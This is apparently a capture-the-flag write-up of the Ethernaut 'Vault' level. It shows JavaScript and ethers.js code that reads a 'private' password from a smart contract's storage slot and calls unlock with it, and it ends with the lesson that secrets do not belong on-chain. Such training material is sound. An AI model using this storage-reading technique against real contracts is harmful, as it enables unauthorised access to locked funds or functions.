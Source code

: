 We are given a contract that has a `locked` boolean property. Initially it is set to true and our objective is to toggle it to false. The only way of doing so is by calling the `unlock` function passing the right password.

The contract was deployed and initialized with the `password` variable being `private`. Although password state variable is private, one can still read a storage variable by determining it's storage slot.

Learning: sensitive information should not be stored on-chain, even if it is specified private.

### Solution 

1. Load level contract deployed for us by Ethernaut using ABI and address:
```
const level_instance_address = "0xA8EEe4D1bAfC6e22e1d22B585999C5a85cBBb186" // ethernaut's deployed contract
var jsonFile = "artifacts/solutions/level8-vault/vault.sol/Vault.json"; // hardhat compiles first
var parsed = JSON.parse(fs.readFileSync(jsonFile));
var contractABI = parsed.abi;
const contract = new ethers.Contract(level_instance_address, contractABI, provider);
```

2. Get storage and decode `password`:
```
const data_ = await provider.getStorageAt(level_instance_address, 1);
console.log(data_);
password = hex_to_ascii(data_).slice(1,);
console.log(chalk.red("Password is:", password));
```

3. Call unlock function of the contract with the correct encoded `password`:
```
const signer = contract.connect(provider.getSigner());
await signer.unlock(ethers.utils.hexlify(ethers.utils.toUtf8Bytes(password)));
```